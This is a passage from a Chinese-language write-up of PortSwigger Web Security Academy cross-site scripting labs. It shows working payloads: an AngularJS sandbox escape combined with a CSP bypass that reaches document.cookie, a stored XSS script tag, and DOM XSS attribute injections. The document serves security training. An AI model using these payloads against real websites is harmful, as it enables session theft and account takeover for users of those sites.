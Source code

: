 ```
1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)
```

#### 16. Reflected XSS with AngularJS sandbox escape and CSP

[AngularJS沙箱](https://portswigger.net/web-security/cross-site-scripting/contexts/angularjs-sandbox)

[CSP](https://portswigger.net/web-security/cross-site-scripting/content-security-policy)

文章提示了可以使用`<input autofocus ng-focus="$event.path|orderBy:'[].constructor.from([1],alert)'">`类似的东西来绕过。

然后字符数超了。

看了一下官方的paylaod：

```html
<script>
location='https://your-lab-id.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.path|orderBy:%27(z=alert)(document.cookie)%27%3E#x';
</script>
```

好吧，我确实不会。

`(z=alert)(document.cookie)`这一串直接看蒙，直呼666。

这里是将`alert`赋值给`z`，然后用`z`去调用`document.cookie`，既避开了检查，又减少了字符数，简直米奇妙妙屋。

#### 17. Stored XSS into HTML context with nothing encoded

储存型XSS。

题目上说，注入点在提交评论的地方。

payload:`<script>alert(1)</script>`

#### 18. DOM XSS in `document.write` sink using source `location.search`

输入safe之后，发现：

![18](xss-burp.assets/18.png)

应该只需要闭合然后随便弄一下就好了。

payload:`safe" onload="alert(1)`

这个我一开始用的是`onerror`但是发现不弹窗，应该是没有报错，于是选择`onload`。

#### 19. DOM XSS in `document.write` sink using source `location.search` inside a select element

注入点应该在`storeId`这里。

![19.1](xss-burp.assets/19.png)
